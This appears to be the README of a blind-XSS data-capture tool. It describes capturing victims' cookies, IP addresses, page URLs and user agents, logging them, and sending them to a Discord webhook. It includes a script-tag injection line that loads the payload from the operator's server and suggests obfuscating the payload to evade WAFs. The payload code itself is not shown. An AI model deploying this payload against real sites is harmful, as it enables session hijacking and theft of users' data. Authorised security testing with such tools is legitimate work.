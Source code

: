 # Blind-XSS

Blind-XSS is a project designed to capture sensitive information, such as cookies, user agents, and IP addresses, when a cross-site scripting (XSS) vulnerability is triggered on a target site. It provides basic logging capabilities and sends notifications via a Discord webhook whenever an XSS event is captured.

## Features
- Captures sensitive data triggered by an XSS attack:
  - Cookies
  - User location (URL)
  - IP address
  - User agent
  - Timestamp of event
- Stores captured data in a secure log file (`events.log`)
- Notifies via a Discord webhook with captured details

## Setup
Follow these steps to set up the project on your server.

1. **Clone the Repository**
   ```bash
   git clone https://github.com/Mrterrestrial/blind-xss.git
   cd blind-xss
   ```

2. **Configure Web Server**
- Ensure your web server (Apache, Nginx, etc.) is configured to serve the files in the `/server` directory.
- Secure the `/logs` folder from public access to prevent unauthorized viewing of captured data (e.g., using .htaccess or nginx location blocks).

3. **Install Dependencies**
- This project requires PHP and cURL to send notifications. Make sure both are installed and enabled on your server.


## Configuration

#### Environment Variables

To configure the project, you need to set up environment variables for sensitive information, specifically the `WEBHOOK_URL` used to send notifications to Discord.

1. **Set Up Environment Variables**
    - Create a `.env` file at the root of your project, or set the environment variables directly on your server:
    ```bash
    WEBHOOK_URL="https://your-discord-webhook-url.com/path"
    ```

## Usage


To use Blind-XSS, inject the JavaScript payload in an XSS-vulnerable page or field. This payload will capture data when a user visits the page with the injected script.

Inject the Payload:

Use the following script source to load payload.js from your server:
```bash 
<script src="https://your-server.com/server/payload.js"></script>
```
***Note***: You can encode or obfuscate the payload further if you need additional evasion from WAFs or other security filters.



## Testing

Before deploying in a live environment, perform the following tests in a test environment to verify functionality.

- **Webhook Notification**: Verify that notifications are sent to your Discord channel.
- **Log Capture**: Ensure that `events.log` captures data in JSON format.
- **Rate Limiting**: Confirm that multiple rapid triggers do not flood your logs or notifications.

Use test environments to avoid unnecessary alerts in production.

## Logging

Captured data will be saved to `logs/events.log` in JSON format. Each line represents a single captured event with details like cookies, IP address, and timestamp.

##### Sample Log Entry

```bash
{
    "cookie": "sample_cookie_value",
    "location": "https://target-site.com/vulnerable-page",
    "ip": "127.0.0.1",
    "user_agent": "Mozilla/5.0...",
    "timestamp": "2024-11-13 10:00:00"
}
```

## Limitations

- **Payload Detection**: WAFs or security filters might detect and block the payload, especially if they detect outgoing requests to unknown domains.
- **Browser Compatibility**: The payload depends on browser-specific features; results may vary across different browsers or devices.

## Security Considerations

To maintain the security of this project, adhere to the following recommendations:

- **Do Not Commit Sensitive Data**: Avoid committing the .env file or any configuration files with sensitive information to GitHub.
- **Restrict File Permissions**: 
    - Set the `events.log` file permissions to 600 to restrict access to only the server user.
    - Set `config.php` and other sensitive files to 600 permissions as well.

- **Secure Logs Folder**: Use `.htaccess` (for Apache) or equivalent configurations to prevent public access to the `/logs` folder.

## Disclaimer

This tool is intended for educational and ethical security testing purposes only. Unauthorized use against systems without permission is illegal and unethical. Please use responsibly.

## License

This project is licensed under the MIT License - see [MIT License](https://opensource.org/licenses/MIT) for details.

## Contributing

Feel free to fork the repository and submit pull requests. For any issues or feature requests, please open an issue on GitHub.
